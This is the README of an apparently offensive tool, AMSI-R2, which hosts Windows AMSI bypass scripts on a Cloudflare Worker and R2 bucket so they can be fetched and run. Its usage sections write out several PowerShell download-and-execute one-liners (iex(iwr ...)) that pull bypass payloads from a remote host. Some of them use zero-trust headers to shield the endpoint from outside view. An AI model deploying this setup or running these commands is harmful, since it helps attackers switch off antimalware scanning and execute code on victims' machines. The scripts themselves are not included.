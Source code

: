 # AMSI-R2

## Summary

Easy access to your amsi bypass script with Cloudflare workers and R2 bucket

## Description

Cloudflare worker function that selects a AMSI bypass file from a folder in a Cloudflare R2 bucket. The idea came from [Flangvik](https://twitter.com/Flangvik) [AMSI.fail](https://github.com/Flangvik/AMSI.fail).

## Features

- Using Cloudflare Workers and R2 feature (free tier is enough)
- Protect your endpoint behind CF zero-trust (free for 1-50 users)
- Deploy with Github actions

## Things you need

- Cloudflare account (you will need your account id)
- Cloudflare API token. Doc [here](https://developers.cloudflare.com/fundamentals/api/get-started/create-token/)
- Create a R2 bucket
- In your new R2 bucket, create a folder which will contain your AMSI bypass scripts. And obviously... add your scripts in that folder.
- Clone or fork the project
- Modify the custom domain `wrangler.toml` file to fit your needs (only the route section should be modified in this file!)
- Setup [Github secrets repository](https://docs.github.com/en/actions/learn-github-actions/variables#creating-configuration-variables-for-a-repository)
- A [domain setup in CF](https://developers.cloudflare.com/fundamentals/get-started/setup/add-site/) to use the [custom domain feature](https://developers.cloudflare.com/workers/configuration/routing/custom-domains/) in the `wrangler.toml` file

note: to use without custom domain(not recommended), you will need to modify 2 things:

- remove the 3rd sed command in `.github/workflows/deploy.yml`
- remove the route section in `wrangler.toml`

## Installation

```bash
git clone https://github.com/service-yack/Some-R2-Explorer

```

## How to use

```bash
# ex: random
curl https://subdomain.yourdomain.com/<folder-name>
iex(iwr -UseBasicParsing -Uri 'https://subdomain.yourdomain.com/<folder-name>');
# specific amsi bypass script
curl https://subdomain.yourdomain.com/<folder-name>?payload=<the-payload-id>
iex(iwr -UseBasicParsing -Uri 'https://subdomain.yourdomain.com/<folder-name>?payload=<the-payload-id>');
###
curl https://amsi-r2.example.com/amsibypass
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass');
#
curl https://amsi-r2.example.com/amsibypass?payload=2
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass?payload=2');
```

## How to use with CF zero-trust

- Generate [service auth token](https://developers.cloudflare.com/cloudflare-one/identity/service-tokens/).
- Add worker domain in CF zero-trust [application section](https://developers.cloudflare.com/cloudflare-one/applications/configure-apps/self-hosted-apps/). During the creation, setup a rule that allows your service token.

```bash
# curl command to access behind the zero-trust
curl https://amsi-r2.example.com/amsibypass -H "CF-Access-Client-Id: <your-CF-Access-Client-Id>" -H "CF-Access-Client-Secret: <your-CF-Access-Client-Secret>"
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass' -Headers @{'CF-Access-Client-Id' = '<your-CF-Access-Client-Id>'; 'CF-Access-Client-Secret' = '<your-CF-Access-Client-Secret>'});
#
curl https://amsi-r2.example.com/amsibypass?payload=2 -H "CF-Access-Client-Id: <your-CF-Access-Client-Id>" -H "CF-Access-Client-Secret: <your-CF-Access-Client-Secret>"
iex(iwr -UseBasicParsing -Uri 'https://amsi-r2.example.com/amsibypass?payload=2' -Headers @{'CF-Access-Client-Id' = '<your-CF-Access-Client-Id>'; 'CF-Access-Client-Secret' = '<your-CF-Access-Client-Secret>'});
```

## Todo

Integrate the logic/obfuscation of [AMSI.fail](https://github.com/Flangvik/AMSI.fail)

## More ?

You want something with a UI ? Take a look at [Some-R2-Explorer](https://github.com/service-yack/Some-R2-Explorer)

## Credits

- [Flangvik](https://twitter.com/Flangvik)
- [somecanadian](https://github.com/som3canadian)
